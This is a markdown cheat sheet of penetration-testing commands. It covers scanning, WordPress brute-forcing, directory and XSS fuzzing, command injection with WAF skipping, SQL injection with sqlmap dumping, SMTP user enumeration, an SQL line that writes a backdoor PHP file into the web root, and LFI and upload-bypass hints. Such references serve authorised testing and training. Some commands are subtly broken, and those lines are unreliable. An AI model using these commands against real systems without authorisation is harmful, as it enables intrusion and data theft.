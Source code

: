 # Common Tools
### Credit: S1ren@sirensecurity.io [Original Source](https://sirensecurity.io/blog/common/)

### Faketime
> install libfaketime & ntp
```bash
faketime "$(ntpdate -q <ip of timesource> | cut -d'' -f 1,2)"

`faketime -f '+7h'
```
### Grep
```bash
grep -R "<search term>" <PATH>

```
### Nmap
```bash
nmap -p- -sT -sV -A $IP
nmap -p- -sC -sV $IP --open
nmap -p- --script=vuln $IP
```
### HTTP-Methods
```bash
nmap  --script http-methods --script-args http-methods.url-path='/website' 
      --script smb-enum-shares
nmap -p80,443 --script=http-methods  --script-args http-methods.url-path='/directory/goes/here'
```
### sed IPs:
```bash
grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])' FILE
```

## WPScan & SSL
```bash
wpscan --url $URL --disable-tls-checks --enumerate p --enumerate t --enumerate u
```
### WPScan Brute Forceing:
```bash
wpscan --url $URL --disable-tls-checks -U users -P /usr/share/wordlists/rockyou.txt
```

### Aggressive Plugin Detection:
```bash
wpscan --url $URL --enumerate p --plugins-detection aggressive
```

## Nikto with SSL and Evasion

```bash
nikto --host $IP -ssl -evasion 1
```
[See Evasion Modalities](https://www.kali.org/tools/nikto/)

## DNS/recon
```bash
dnsrecon –d yourdomain.com
```

### Gobuster directory
```bash
gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```
### Gobuster files
```bash
gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -k -t 30
```

### Gobuster for SubDomain brute forcing:
```bash
gobuster dns -d domain.org -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30
```
"WARNING: Make sure any DNS name you find resolves to an in-scope address before you test it"

### Extract IPs from a text file.
```bash
grep -o '[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}' nmapfile.txt
```

### Wfuzz XSS Fuzzing
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/XSS/XSS-BruteLogic.txt "$URL"
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/XSS/XSS-Jhaddix.txt "$URL"
```
### COMMAND INJECTION WITH POST DATA
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/command-injection-commix.txt -d "doi=FUZZ" "$URL"
```

### Test for Parameter Existence!
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt "$URL"
```

### AUTHENTICATED FUZZING DIRECTORIES
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt --hc 404 -d "SESSIONID=value" "$URL"
```

### AUTHENTICATED FILE FUZZING:
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt --hc 404 -d "SESSIONID=value" "$URL"
```

### FUZZ Directories:
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt --hc 404 "$URL"
```

### FUZZ FILES:
```bash
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt --hc 404 "$URL"
|
LARGE WORDS:
wfuzz -c -z file,/usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words.txt --hc 404 "$URL"
|
USERS:
wfuzz -c -z file,/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt --hc 404,403 "$URL"
```

### Command Injection with commix, ssl, waf, random agent.
```bash
commix --url="https://supermegaleetultradomain.com?parameter=" --level=3 --force-ssl --skip-waf --random-agent
```

### SQLMap
```bash
sqlmap -u $URL --threads=2 --time-sec=10 --level=2 --risk=2 --technique=T --force-ssl
sqlmap -u $URL --threads=2 --time-sec=10 --level=4 --risk=3 --dump
```


## Social Recon
### theharvester
```bash
theharvester -d domain.org -l 500 -b google
```



## SMTP User Enumeration
### smtp-user-enum
```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/sr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t $IP
```

## Command Execution Verification - [Ping check]
```bash
sudo tcpdump -i any icmp -c10
```
```bash
#Check Network
netdiscover -r 0.0.0.0/24
```
```bash
#INTO OUTFILE D00R
SELECT “” into outfile “/var/www/WEROOT/backdoor.php”;
```
## LFI?
### PHP Filter Checks.
php://filter/convert.base64-encode/resource=

UPLOAD IMAGE?
GIF89a1

Chuxtr's rip-off of S1ren's common implies that you have seclists installed in the default Kali location '/usr/share/wordlists/seclists/'
https://github.com/danielmiessler/SecLists

test
